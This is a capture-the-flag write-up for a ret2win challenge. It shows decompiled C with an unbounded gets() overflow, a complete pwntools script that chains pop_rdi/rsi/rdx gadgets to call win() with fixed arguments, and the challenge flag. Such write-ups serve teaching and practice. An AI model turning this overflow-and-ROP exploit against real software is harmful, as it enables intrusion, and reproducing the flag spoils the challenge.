 # [Pwn] ret2win 2

## 📚 Overview

> *"Introduction to Return Oriented Programming (ROP). Di arsitektur x86-64, 3 argumen pertama dari saat memanggil fungsi diambil dari register RDI, RSI, dan RDX. Dengan tools seperti ropper atau ROPgadget, kita bisa dapetin gadget yang bisa ngisi register-register itu dengan nilai yang kita inginkan."*

## 💻 Decompiled Code

Similar to the previous challenge but this time we have to overwrite the RDI, RSI, and RDX registers *in addition*. Inside the binary itself, we have a `gadget()` function which provided us with the gadgets that help us in overwriting the registers.

```c
void win(long param_1,long param_2,long param_3)
{
  char flag [104];
  FILE *file;
  
  file = fopen("flag.txt","r");
  if (((param_1 != -0x2152411021524111) || (param_2 != -0x5432edcb2345bcdf)) ||
     (param_3 != 0x147147147147147)) {
    puts("No hacking!");
    FUN_00401120(0xffffffff);
  }
  if (file == (FILE *)0x0) {
    puts("flag.txt not found");
    FUN_00401120(0xffffffff);
  }
  fgets(flag,100,file);
  fclose(file);
  printf("Wow, how did you get here? Here\'s the flag:\n%s\n",flag);
  return;
}

undefined8 main(void)
{
  char buffer [112];
  
  printf("Give me your payload: ");
  gets(buffer);
  return 0;
}
```

## ⚙ Full Script

**Payload >** Overflow the buffer to reach the stack, use the gadgets to insert the parameters' value on the stack, and then overwrite the RIP with `win()` address.

```python
from pwn import *
elf = context.binary = ELF("./ret2win", checksec=False)

p = process('./ret2win')
# p = remote("IP_ADDR", PORT)

offset = 0x78
RET_ADDR = 0x40101a
WIN_ADDR = elf.symbols.win
pop_rdi = p64(0x40121e)
pop_rsi = p64(0x401220)
pop_rdx = p64(0x401222)

rop = ROP(elf)
rop.raw(RET_ADDR)
rop.raw(WIN_ADDR)

payload = b'A' * offset
payload += pop_rdi + p64(0xDEADBEEFDEADBEEF)
payload += pop_rsi + p64(0xABCD1234DCBA4321)
payload += pop_rdx + p64(0x147147147147147)
payload += rop.chain()
p.sendlineafter(b'Give me your payload: ', payload)

response = (p.recvall(timeout=1).strip())[:-8]
print(response.decode())

# TCP1P{pop_rdi_pop_rsi_pop_rdx_sangat_diincar_heker}

p.close()
```